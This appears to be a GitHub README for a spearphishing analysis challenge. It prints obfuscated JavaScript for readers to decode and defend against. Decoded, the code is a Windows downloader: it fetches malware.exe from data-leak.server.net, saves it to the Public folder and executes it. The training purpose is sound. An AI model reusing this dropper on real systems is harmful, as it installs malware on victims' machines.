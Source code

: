 # Spearphishing-Intrusion-JS-Code-Challenge
I will be attaching Obfuscated Javascript Code to be decrypted. Your report is to include how to secure against the function of this code in cybersecurity standards. 

Be a free as you want with this activity!

JavaScript Analysis Report: PDF Attachment 
Obfuscated Code: 

var  
_0x1234=["\x4D\x53\x58\x4D\x4C\x32\x2E\x58\x4D\x4C\x48\x54\x54\x50","\ x6F\x70\x65\x6E","\x47\x45\x54","\x68\x74\x74\x70\x3A\x2F\x2F\x64\x61\ x74\x61\x2D\x6C\x65\x61\x6B\x2E\x73\x65\x72\x76\x65\x72\x2E\x6E\x65\x7 4\x2F\x6D\x61\x6C\x77\x61\x72\x65\x2E\x65\x78\x65","\x73\x65\x6E\x64", "\x41\x44\x4F\x44\x42\x2E\x53\x74\x72\x65\x61\x6D","\x6F\x70\x65\x6E", "\x74\x79\x70\x65","\x77\x72\x69\x74\x65","\x72\x65\x73\x70\x6F\x6E\x7 3\x65\x42\x6F\x64\x79","\x70\x6F\x73\x69\x74\x69\x6F\x6E","\x73\x61\x7 6\x65\x54\x6F\x46\x69\x6C\x65","\x43\x3A\x5C\x55\x73\x65\x72\x73\x5C\x 50\x75\x62\x6C\x69\x63\x5C\x6D\x61\x6C\x77\x61\x72\x65\x2E\x65\x78\x65 ","\x63\x6C\x6F\x73\x65","\x57\x53\x63\x72\x69\x70\x74\x2E\x53\x68\x65 \x6C\x6C","\x52\x75\x6E"];var http=new  
ActiveXObject(_0x1234[0]);http[_0x1234[1]](_0x1234[2],_0x1234[3],false );http[_0x1234[4]]();var adodbStream=new  
ActiveXObject(_0x1234[5]);adodbStream[_0x1234[6]]();adodbStream[_0x123 4[7]]=1;adodbStream[_0x1234[8]](http[_0x1234[9]]);adodbStream[_0x1234[ 10]]=0;adodbStream[_0x1234[11]](_0x1234[12],2);adodbStream[_0x1234[13] ]();var shell=new  
ActiveXObject(_0x1234[14]);shell[_0x1234[15]](_0x1234[12];
